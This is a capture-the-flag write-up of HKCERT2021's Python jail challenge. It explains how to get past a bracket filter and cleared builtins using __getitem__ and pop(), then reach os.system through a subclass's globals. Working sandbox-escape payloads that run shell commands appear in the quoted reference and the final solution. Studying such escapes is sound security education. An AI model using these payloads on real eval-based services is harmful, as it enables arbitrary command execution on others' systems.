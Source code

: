 # HKCERT2021 - 所有遺失的東西
- Write-Up Author: Teru Lei \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag: hkcert21{nev3r_uSe_pYth0n_45_sanDBox}

## **Question:**
所有遺失的東西 (150 points)

>Challenge description

![img](./img/1.png)

Attachment: [pyjail1_f7be93352498ebd158a0a9fc069b30e9.zip](./pyjail1_f7be93352498ebd158a0a9fc069b30e9.zip)

## Write up

1. First, let’s see the source code as below:

```
backup_eval = eval
backup_print = print
input = input()
if '[' in input or ']' in input:
    print('[You failed to break the jail]')
    exit(-1)
globals()['__builtins__'].__dict__.clear()
backup_print(backup_eval(input,{},{}))
```

From source code, we can get to know 3 points:
- From “**input = input()**” and “**backup_print(backup_eval(input,{},{}))**”, our input will be treated as string normally, and with some trial we can get to know the program is written in Python 3, we cannot do direct escape like in Python 2. With this point one thing we may consider is to leverage builtin modules (e.g. __builtin__  or  magic function like__class__) to escape and run system command. 
- From “**if '[' in input or ']' in input:**”, “[“ and “]” is filtered, which is generally needed when calling __builtin__, __class__
- From “**globals()['__builtins__'].__dict__.clear()**”, seems the approach using  “__builtin__”  should not work.

Up to this moment, we can get one feasible approach (I should say seems feasible) to use approach of calling magic function like __class__, and think of a way to call system command by not using “[“ and “]”.

2. Next, let’s explore if it’s possible by not using “[“ and “]”.  

After some research I got [this link](https://www.mi1k7ea.com/2019/05/31/Python%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8%E5%B0%8F%E7%BB%93/)

過濾中括號
其中部分[]被過濾掉時，
• 調用__getitem__()函數直接替換；
• 調用pop()函數（用於移除列表中的一個元素，默認最終一個元素，並且返回該元素的值）替換；

如：
```
#代表
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('calc')
# __getitem__()替換中括號[]
''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('__import__')('os').system('calc')

#pop()替換中括號[]，結合__getitem__()利用
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('__import__')('os').system('calc')
```

It means that when “[“ and “]” are filtered, we may use pop() and __getitem__() together to perform Python Sandbox Escape. So the approach to use __class__ without using “[“ and “]” likely is the right approach.

3. We can start to craft the payload and get the flag

First we need to know all the classes available to be called. This link is very good to explain how we can get the subclasses available: [Analysis of Python Sandbox Escape (sourceexample.com)](https://sourceexample.com/article/en/85036c9f263817cc353fe9752c9b4c2c/), with the method introduced in the article (but remember we need to use pop() and __getitem__ to avoid our payload being filtered), when we try to get subclasses with ''.__class__.__mro__.__getitem__(-1), we can get the subclasses list as below:

```
<class 'type'>, 
<class 'weakref'>, 
<class 'weakcallableproxy'>, 
<class 'weakproxy'>, 
<class 'int'>, 
<class 'bytearray'>, 
<class 'bytes'>, 
<class 'list'>, 
<class 'NoneType'>, 
<class 'NotImplementedType'>, 
<class 'traceback'>,
<class 'super'>,
<class 'range'>, 
<class 'dict'>, 
<class 'dict_keys'>, 
<class 'dict_values'>, 
<class 'dict_items'>, 
<class 'dict_reversekeyiterator'>, 
<class 'dict_reversevalueiterator'>, 
<class 'dict_reverseitemiterator'>, 
<class 'odict_iterator'>, 
<class 'set'>, 
<class 'str'>, 
<class 'slice'>, 
<class 'staticmethod'>,
<class 'complex'>, 
<class 'float'>, 
<class 'frozenset'>, 
<class 'property'>, 
<class 'managedbuffer'>, 
<class 'memoryview'>, 
<class 'tuple'>, 
<class 'enumerate'>, 
<class 'reversed'>, 
<class 'stderrprinter'>, 
<class 'code'>, 
<class 'frame'>, 
<class 'builtin_function_or_method'>, 
<class 'method'>, 
<class 'function'>,
<class 'mappingproxy'>, 
<class 'generator'>,
<class 'getset_descriptor'>,
<class 'wrapper_descriptor'>, 
<class 'method-wrapper'>, 
<class 'ellipsis'>, 
<class 'member_descriptor'>, 
<class 'types.SimpleNamespace'>, 
<class 'PyCapsule'>, 
<class 'longrange_iterator'>, 
<class 'cell'>, 
<class 'instancemethod'>, 
<class 'classmethod_descriptor'>, 
<class 'method_descriptor'>, 
<class 'callable_iterator'>, 
<class 'iterator'>, 
<class 'pickle.PickleBuffer'>,
<class 'coroutine'>, 
<class 'coroutine_wrapper'>, 
<class 'InterpreterID'>, 
<class 'EncodingMap'>,
<class 'fieldnameiterator'>, 
<class 'formatteriterator'>, 
<class 'BaseException'>, 
<class 'hamt'>, 
<class 'hamt_array_node'>, 
<class 'hamt_bitmap_node'>, 
<class 'hamt_collision_node'>, 
<class 'keys'>,<class 'values'>,
<class 'items'>,<class 'Context'>, 
<class 'ContextVar'>, 
<class 'Token'>, 
<class 'Token.MISSING'>, 
<class 'moduledef'>,
<class 'module'>, 
<class 'filter'>, 
<class 'map'>, 
<class 'zip'>, 
<class '_frozen_importlib._ModuleLock'>,
<class '_frozen_importlib._DummyModuleLock'>, 
<class '_frozen_importlib._ModuleLockManager'>, 
<class '_frozen_importlib.ModuleSpec'>, 
<class '_frozen_importlib.BuiltinImporter'>,
<class 'classmethod'>, 
<class '_frozen_importlib.FrozenImporter'>,
<class '_frozen_importlib._ImportLockContext'>,
<class '_thread._localdummy'>, 
<class '_thread._local'>, 
<class '_thread.lock'>, 
<class '_thread.RLock'>, 
<class '_io._IOBase'>, 
<class '_io._BytesIOBuffer'>,
<class '_io.IncrementalNewlineDecoder'>, 
<class 'posix.ScandirIterator'>,
<class 'posix.DirEntry'>,
<class '_frozen_importlib_external.WindowsRegistryFinder'>, 
<class '_frozen_importlib_external._LoaderBasics'>, 
<class '_frozen_importlib_external.FileLoader'>, 
<class '_frozen_importlib_external._NamespacePath'>, 
<class '_frozen_importlib_external._NamespaceLoader'>, 
<class '_frozen_importlib_external.PathFinder'>,
<class '_frozen_importlib_external.FileFinder'>, 
<class 'zipimport.zipimporter'>, 
<class 'zipimport._ZipImportResourceReader'>,
<class 'codecs.Codec'>,
<class 'codecs.IncrementalEncoder'>, 
<class 'codecs.IncrementalDecoder'>, 
<class 'codecs.StreamReaderWriter'>, 
<class 'codecs.StreamRecoder'>, 
<class '_abc._abc_data'>, 
<class 'abc.ABC'>,
<class 'dict_itemiterator'>,
<class 'collections.abc.Hashable'>, 
<class 'collections.abc.Awaitable'>, 
<class 'types.GenericAlias'>, 
<class 'collections.abc.AsyncIterable'>,
<class 'async_generator'>, 
<class 'collections.abc.Iterable'>, 
<class 'bytes_iterator'>, 
<class 'bytearray_iterator'>, 
<class 'dict_keyiterator'>,
<class 'dict_valueiterator'>, 
<class 'list_iterator'>,
<class 'list_reverseiterator'>, 
<class 'range_iterator'>, 
<class 'set_iterator'>, 
<class 'str_iterator'>,
<class 'tuple_iterator'>, 
<class 'collections.abc.Sized'>,
<class 'collections.abc.Container'>, 
<class 'collections.abc.Callable'>, 
<class 'os._wrap_close'>, 
<class '_sitebuiltins.Quitter'>, 
<class '_sitebuiltins._Printer'>, 
<class '_sitebuiltins._Helper'>
```

We need to find a class which can call OS command. With some research and test (including some failures), We can get a class called **<class '_frozen_importlib_external.FileLoader'>**, and the index number is 99 (well, you may count by manual or write a simple python script to do the counting) which may be able to call OS command. With some tries here is our payload worked (with leverage pop and __getitem__):

```
''.__class__.__mro__.__getitem__(-1).__subclasses__().pop(99).__init__.__globals__.get('_os').__dict__.get('system')('cat /flag.txt')
```

Get the flag:
> hkcert21{nev3r_uSe_pYth0n_45_sanDBox}
